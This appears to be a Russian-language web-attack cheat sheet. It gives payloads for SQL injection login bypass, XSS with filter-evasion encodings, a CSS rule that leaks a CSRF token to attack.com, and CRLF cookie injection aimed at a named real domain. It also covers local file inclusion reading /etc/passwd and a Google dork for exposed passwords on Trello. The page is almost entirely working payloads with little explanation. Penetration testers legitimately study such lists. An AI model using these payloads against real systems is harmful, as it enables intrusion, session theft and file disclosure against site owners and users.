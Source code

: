**SQL**

a - (Строковой входящий параметр) 
php?id=1'
php?id=1' —
b - (Числовой входящий параметр)
php?id=1 blablabla
php?id=-1
c - (Авторизация)
Под ником 'Admin' нам нужно вписать вместо него что то наподобие этого Admin' — 
Уязвимость в поле 'pass'
123' OR login='Admin' — 
d - (Оператор LIKE)
Вместо пароля просто ввести "%"

**XSS**

```
'":;<>/\[]<script><h1>
''`;!--"<XSS>=&{()}

< - &lt;
> - &gt;
& - &amp;
" - &quot;
' - &#039;

: - %3A
/ - %2F

<script>alert(5)</script>

"><script>alert(5)</script>

;alert()

<a href="javascript:alert(1)">

NULL <scri%00pt>alert()</scri%00pt>

TAB <svg+src="jav%09ascript:alert(1)">

Newline <script>//>%0Aalert(1);</script>

Carriage Return <script>//>%0Dalert(1);</script>

Spaces < s c r i p t > p r o m t ( 1 ) < / s c r i p t >

/#text= NAME'); alert(document.cookie+'

reflected XSS - /?report=javascript
%3aalert(document.domain)

php?email='-alert(document.domain)-'

<script>\u0061\u006C\u0065\u0072\u0074(I)</script>

<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />

"><img src=x onerror=prompt(1);>

<script>a="get";b="URL";c="javascript:";d="alert(1);";eval(a+b+c+d);</script>

<form action="javascript:alert(document.location);"><input type="submit" /></form>

<iframe src="//www.youtube.com/embed/Ik9fCVkKeLg" frameborder="0" style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">

<div style="background:url('javascript:alert(1)')">

input[name=csrf_token][value=^a]{background-image:url('http://attack.com/log.php?a');}

XSS с помощью css:
<style>img{background-image:url('javascript:alert(1)')}</style>

Обход фаерволов:
<style>*{background-image:url('\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29')}</style>

Polyglot XSS - Mathias Karlsson
" onclick=alert(document.cookie)//<button ‘ onclick=alert(document.cookie)//> */ alert(1)//

```

**Authentication bypass**

В процессе аутентификации при доступе к веб-сайту, посетив ссылку для отмены подписки.
PHPSESSID=xxx;

**Link filter protection bypass**

?url=site%E3%80%82com

**CRLF Injection**

GET /qwerty%0ASet-Cookie:%20test=qwerty;domain=.beepcar.ru HTTP/1.1

**robots.txt**

Disallow - Запрет доступа всех роботов 
Allow - Разрешает доступ к определенной части ресурса

**LFI**

/index.php?file=/../../../../../../etc/passwd 

file=/../../../../../../etc/passwd.php%00 

file=/../../../../../../etc/passwd%00.php 

index.txt при условии, что приписывается окончание .php 
index.txt/././././../...«(100-10)/2 раз».../././ 

php://filter/convert.base64-encode/resource=index 
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index

**google dork**

«site:trello.com AND intext:@gmail\.com AND intext:password»
